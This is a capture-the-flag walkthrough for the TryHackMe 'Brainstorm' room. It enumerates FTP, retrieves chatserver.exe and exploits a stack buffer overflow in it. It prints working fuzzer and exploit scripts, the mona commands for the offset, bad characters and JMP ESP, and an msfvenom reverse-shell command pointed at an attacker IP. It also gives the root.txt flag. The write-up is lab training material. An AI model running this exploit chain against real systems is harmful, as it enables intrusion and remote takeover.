








# [Brainstorm](https://tryhackme.com/r/room/brainstorm)


[Brainstorm](https://tryhackme.com/r/room/brainstorm) is listed as an medium room. Reverse engineer a chat program and write a script to exploit a Windows machine. An overview of what we’ll be using is listed here:

* Nmap
* FTP
* Python

## Task 1 - Deploy Machine and Scan Network

Deploy the machine and scan the network to start enumeration!

Please note that this machine does not respond to ping (ICMP) and may take a few minutes to boot up.

### Answer the questions below

* Deploy the machine

	

* How many ports are open?
	
	

	We got open port on port `21`, `3389` and `9999`. FTP allowed to login anonymous. Also we got suspicious open port on `9999`. Trying to connect on port `9999`.

	```
	nc $IP 9999
	```

	

	**Answer : 3**

## Task 2 - Accessing Files

Let's continue with the enumeration!

### Answer the questions below

* What is the name of the exe file you found?

	* Login FTP to as anonymous
	
		```
		ftp anonymous@$IP
		```

		

	* Show file on directory
	
		```
		dir
		```

		

		We got error message "229 Entering Extended Passive Mode (|||49354|)". So, we need to disable passive mode, press `ctrl+c` and run `passive`

		

		We got error message again "150 Opening ASCII mode data connection". So, set ftp to binary mode, run `bin`

		

		And now we can see file on directory

		

	**Answer : chatserver.exe**

## Task 3 - Access

After enumeration, you now must have noticed that the service interacting on the strange port is some how related to the files you found! Is there anyway you can exploit that strange service to gain access to the system? 

It is worth using a Python script to try out different payloads to gain access! You can even use the files to locally try the exploit. 

If you've not done buffer overflows before, check [this](https://tryhackme.com/room/bof1) room out!

### Answer the questions below

* Read the description.

	* Download `chatserver.exe` and `essfunc.dll` from FTP server
	
		```
		get chatserver.exe
		get essfunc.dll
		```

		

	* Copy file to Windows VM with installed **Immunity Debugger** and **mona.py.** Run **Immunity Debbuger**
	
		

* After testing for overflow, by entering a large number of characters, determine the EIP offset.

	* Open file `chatserver.exe` on **Immunity Debugger**
	
		

	* Press **F9** to run program on **Immunity Debugger**
	
		

	* Set `mona` working folder
	
		```
		!mona config -set workingfolder D:\Project\mona\%p
		```

		

	* Fuzzing the application with `fuzzer.py`
	
		```
		#!/usr/share/python

		import socket, time, sys

		ip = '10.37.1.149'		# Change to IP Host
		port = 9999			# Change to Port Host
		timeout = 5

		string = "A" * 100

		try:
			s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
			s.settimeout(timeout)
			s.connect((ip, port))
			s.recv(1024)
			s.recv(1024)
			s.send(b"KakakSeram \r\n")
			s.recv(1024)
			print("#### Starting Fuzzing #####")
			while True:
				print("[+] Sending " + str(len(string)) + " bytes...")
				s.send(bytes(string, "latin-1"))
				s.recv(1024)
				string += "A" * 100
				time.sleep(1)
		except:
			print("#### End of Fuzzing #####")
			print("Fuzzing crashed at " + str(len(string)) + " bytes")
			sys.exit(0)
			s.close()
		```

		

		We got program crashed at 2800 bytes

		

		EIP value 41414141, it means our string "A" overflow to the program

	* Create file `exploit.py`
	
		```
		#!/usr/share/python

		import socket

		ip = '10.37.1.149'		# Change to IP Host
		port = 9999			# Change to Port Host

		offset = 0
		overflow = "A" * offset
		retn = ""
		padding = ""
		payload = ""

		buffer = overflow + retn + padding + payload

		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

		try:
			s.connect((ip, port))
			s.recv(1024)
			s.recv(1024)
			s.send(b"KakakSeram \r\n")
			s.recv(1024)
			print("Sending evil buffer...")
			s.send(bytes(buffer + "\r\n", "latin-1"))
			print("Done!")
		except:
			print("Could not connect.")
  		```

  		

	* Create pattern with adding 400 bytes from crached program (2800 + 400 = 3200)
	
		```
		/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3200
		```

		

	* Copy our pattern to payload variable on `exploit.py`
	
		

	* On **Immunity Debugger** press `ctrl+F2` to restart application and click `OK`. Press F2 to run application again.
	
		

	* Run `exploit.py`
	
		

		And application crashed again

	* In the command input box at the bottom of the screen **Immunity Debugger**, run the following mona command, changing the distance to the same length as the pattern
	
		```
		!mona findmsp -distace 3200
		```

		

		Finaly we got the offset

	**EIP offset value = 2012**

* Now you know that you can overflow a buffer and potentially control execution, you need to find a function where ASLR/DEP is not enabled. Why not check the DLL file.

	* Now we need to generate a string of bad chars from `\x01` to `\xff` that is identical to the bytearray. Use the python script (`bytegen.py`)
	
		```
		for x in range(1, 256):
      		print("\\x" + "{:02x}".format(x), end='')
    	print()
    	```

    	

    * Update `exploit.py` script, set the offset variable to EIP offset value, set the payload variable to generated string and set the retn variable to "BBBB"
	
		

	* Restart **Immunity Debugger** and generate a bytearray using mona, and exclude the null byte (`\x00`)

		```
		!mona bytearray -b "\x00"
		```

		

	* Run `exploit.py`
	
		

		

		We overwrite EIP from 41414141 (string "AAAA") to 42424242 (String "BBBB" on retn variable) and also we got ESP value = 00A7EEA8

	* Use mona to compare bytearray with ESP value
	
		```
		!mona compare -f D:\Project\mona\chatserver\bytearray.bin -a 00A7EEA8
		```

		

		Badchar = **\x00**

	* Finding a Jump Code
	
		```
		!mona jmp -r esp -cpb "\x00"
		```

		

		Note the address **625014F7** => **62 50 14 F7** => **\xf7\x14\x50\x62** written backwards since the system is little endian

* Since this would work, you can try generate some shellcode - use msfvenom to generate shellcode for windows.

	* Generate a reverse shell payload using msfvenom, making sure to exclude the same bad chars that were found previously
	
		```
		msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.17.127.223 LPORT=4444 EXITFUNC=thread -b "\x00" -f c
		```

		

	* Update `exploit.py` script and set the payload variable to the string of generated C code, also add variable padding to  `"\x90" * 16` and change IP to target machine THM
	
		

	* Startup owr listener
	
		

	* Run `exploit.py` to get reverse shell
	
		

* After gaining access, what is the content of the root.txt file?

	

	**Answer : 5b1001de5a44eca47eee71e7942a8f8a**
	
